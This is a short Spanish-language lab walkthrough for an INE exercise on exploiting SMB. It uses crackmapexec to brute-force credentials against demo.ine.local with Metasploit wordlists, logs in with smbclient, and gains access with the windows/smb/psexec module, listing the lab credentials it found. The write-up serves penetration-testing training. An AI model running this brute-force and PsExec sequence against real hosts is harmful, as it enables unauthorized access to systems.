





# Exploiting SMB With PsExec

**Objective:** Exploit the SMB service with PsExec and retrieve the flag



Probaremos a bruteforcear credenciales en smb
```bash
crackmapexec smb demo.ine.local -u /usr/share/metasploit-framework/data/wordlists/common_users.txt -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```


sysadmin:samantha

```bash
smbclient //demo.ine.local/C/ -U sysadmin
```



Vemos una flag

Podemos ganar acceso a la máquina con PsExec

Usaremos
```bash
windows/smb/psexec
```

Con las credenciales sysadmin:samantha nos da error de acceso

Vamos a inspeccionar a ver si hay más credenciales válidas
```bash
crackmapexec smb demo.ine.local -u /usr/share/metasploit-framework/data/wordlists/common_users.txt -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt --continue-on-success | grep -E '\[\+\]'
```

--continue-on-success: sigue buscando a partir del primer match
grep: para filtrar por los matches



administrator:qwertyuiop

Si aparece el **p3wned!** significa que CME ha comprobado que esas credenciales permiten administrar/ejecutar código remotamente mediante alguno de los mecanismos SMB disponibles, normalmente mediante servicios administrativos como `psexec`

Ejecutamos con estas credenciales el exploit



Obtenemos acceso


